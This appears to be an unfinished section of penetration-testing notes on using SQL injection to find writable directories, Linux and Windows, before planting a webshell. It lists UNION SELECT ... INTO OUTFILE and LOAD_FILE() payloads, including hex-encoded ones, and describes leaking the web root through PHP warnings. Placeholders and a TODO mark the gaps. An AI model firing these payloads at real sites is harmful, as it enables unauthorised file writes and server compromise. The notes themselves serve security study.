 > [!IMPORTANT] Writing a Webshell in a location
> This step is necessary to find a destination to write a webshell.

#### 4.2.3.1 - Linux

Using SQL Query statements especially when you execute the `LOAD_FILE()` function. It will disclose the PHP warning messages to find the absolute path of the web root directory. Keep an eye out them.

Write a file in the common world writable directories. These two are the best candidates: `/tmp/` and `/dev/shm/`

```sql
' UNION SELECT 'test', NULL INTO OUTFILE '/tmp/file.txt'#

' UNION SELECT 1, LOAD_FILE('/tmp/file.txt')#

' UNION SELECT 'test', NULL INTO OUTFILE '/dev/shm/file.txt'#

' UNION SELECT 1, LOAD_FILE('/dev/shm/file.txt')#
```

Hex encoded

```sql
' UNION SELECT 0x74657374, NULL INTO OUTFILE '/dev/shm/file.txt'#

' UNION SELECT 1, LOAD_FILE('/dev/shm/file.txt')#
```

`<insert_screenshot from any of the SQLi commands for directory enumeration>`

`<insert screenshot any of the OS enumeration from above>`

#### 4.2.3.2 - Windows

Using SQL Query statements will disclose the PHP warning messages to find the absolute path of the web root directory. When you execute the `LOAD_FILE()` function. Keep an eye out the php warning syntax messages. It'll provide you the absolute path to write php files.

```sql
' UNION SELECT 'test', NULL INTO OUTFILE 'C:\\Windows\\Temp\\file.txt'#

' UNION SELECT NULL, LOAD_FILE('C:\\Windows\\Temp\\file.txt')#
```

- Hex encoded

```sql
' UNION SELECT 0x74657374, NULL INTO OUTFILE 'C:\\Windows\\Temp\\file.txt'#

' UNION SELECT 1, LOAD_FILE('C:\\Windows\\Temp\\file.txt')#
```

#### 4.2.2.3 - General

We'll be using the SQL queries to enumerate file destination that may give us the directory web root path to write the webshell.

TODO: Demonstrate from the enumeration phase to find the web root directory
